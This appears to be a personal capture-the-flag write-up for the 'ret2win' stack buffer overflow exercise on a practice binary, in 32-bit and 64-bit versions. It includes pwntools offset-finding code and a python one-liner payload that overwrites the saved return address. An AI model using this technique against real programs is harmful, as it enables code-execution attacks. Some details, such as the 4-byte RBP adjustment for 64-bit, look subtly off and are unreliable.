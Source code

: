 # Contents
- Task Description
- 32 bit
- 64 bit

## Task Description
Locate a method that you want to call within the binary.  
Call it by overwriting a saved return address on the stack.

## 32 bit
File checks:
32 bit ELF with no canaries
Checking function from within pwndbg.
Three of intrest; main, pwnme, ret2win

For the exploit all that is needed is the buffer size and the location of the ret2win function.

make a cyclic pattern.
```python
from pwn import *
g = cyclic_gen()
g.get(100)
```
Then use ```g.find()``` to get the buffer size of 44.
The ret2win function has a memory location of 0x804862c
little endian byte
```
\x2c\x86\x04\x08
```
Generate the payload
```bash
python2 -c 'print "A"*44+"\x2c\x86\x04\x08"' > payload.32bit
```
Run it against the binary. This works and gives out the flag.
```flag
ROPE{a_placeholder_32byte_flag!}
```

## 64 bit
File Checks
64bit ELF with no canaries
Same three function as the 32bit
Find the buffer size by adding 4 bytes to the RBP
which is 40 bytes
find the memory location of the ret2win functions.
0x400756
memory location needs to be 8 bytes
0x0000000000400756
convert to little endian
```bash

\x56\x07\x40\x00\x00\x00\x00\x00
```
Add the buffer and run the payload

---
Creation date: 08-10-2022

Last modified date: Sunday 8th October 2022
***
